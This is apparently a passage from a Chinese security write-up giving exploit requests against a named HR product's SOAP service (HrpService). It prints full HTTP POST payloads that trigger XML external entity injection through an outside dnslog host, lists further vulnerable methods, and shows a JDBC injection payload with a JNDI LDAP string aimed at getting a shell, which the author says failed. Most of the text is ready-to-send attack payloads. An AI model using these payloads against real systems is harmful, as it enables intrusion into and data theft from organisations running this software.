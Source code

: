   
 ![](https://cdn.nlark.com/yuque/0/2025/png/26203837/1748235518192-8d88c413-5a1c-452c-b8ac-e16d470a9c27.png)  
  
  
此接口的其他方法也存在xxe，如getHolidayMsg、impInfoByNotice、getRemainHolidays、syncHolidayMsg、updateHolidays方法，xxe-SynToADService-sendSyncMsg等，doPost(com.hjsj.hrms.servlet.template.OutputTemplateDataServlet)  
  
```
POST /services/HrpService HTTP/1.1Host: xxxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeContent-Type: application/xmlCookie: xxxContent-Length: 432<?xml version="1.0" encoding="utf-8"?><!DOCTYPE syscode SYSTEM "http://8b5gf4.dnslog.cn"><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"                   xmlns:hr="http://www.hjsj.com/HrpService">   <soapenv:Header/>   <soapenv:Body>      <hr:impInfoByNotice>         <arg0><M><syscode>&send;</syscode></M></arg0>      </hr:impInfoByNotice>   </soapenv:Body></soapenv:Envelope>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVeBxvAsiaFWAR0qF2NXQC9HTeSJmnH8O5XJ4oYC57fXriaMicNIpP0MQjw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVrDw540pBcux7R8ZX9HI9GF8ll3lHHTmv8D8Y1r7M6hyly4ibhNDUbBQ/640?wx_fmt=png&from=appmsg "")  
  
```
POST /services/HrpService HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeContent-Type: application/xmlCookie: xxxContent-Length: 434<?xml version="1.0" encoding="utf-8"?><!DOCTYPE syscode SYSTEM "http://8b5gf4.dnslog.cn"><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"                   xmlns:hr="http://www.hjsj.com/HrpService">   <soapenv:Header/>   <soapenv:Body>      <hr:Huayu_peWageRecv>         <arg0><M><syscode>&send;</syscode></M></arg0>      </hr:Huayu_peWageRecv>   </soapenv:Body></soapenv:Envelope>
```  
###### jdbc注入（不存在db2组件，无法getshell）  
  
  
 SynEmpOrgToERPService-》sendSyncMsg  
  
  
SynToADService-》sendSyncMsg  
  
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"                   xmlns:hr="http://www.hjsj.com/HrChangeInfoService">   <soapenv:Header/>   <soapenv:Body>      <hr:sendSyncMsg>         <arg0><hr><jdbc>         <datatype>         db2         </datatype>         <username>1        </username>         <pass>2        </pass>         <ip_addr>         127.0.0.1         </ip_addr>         <port>         5420         </port>         <database>         BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:8811         </database></jdbc></hr>         </arg0>      </hr:sendSyncMsg>   </soapenv:Body></soapenv:Envelope> DriverManager.getConnection("jdbc:db2://127.0.0.1:50000/BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:1099/evil;");# jdbc:db2://ip_addr:port/database
```  
  
可以看到getConnection的参数可控，但是此项目没有db2组件，因此getshell失败，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVM16kHtv1Wf1PiaSbpmuYsgMyOz41RpHBiaRGEHicNBoXia1SdTWhicq8VHQ/640?wx_fmt=png&from=appmsg "")  
  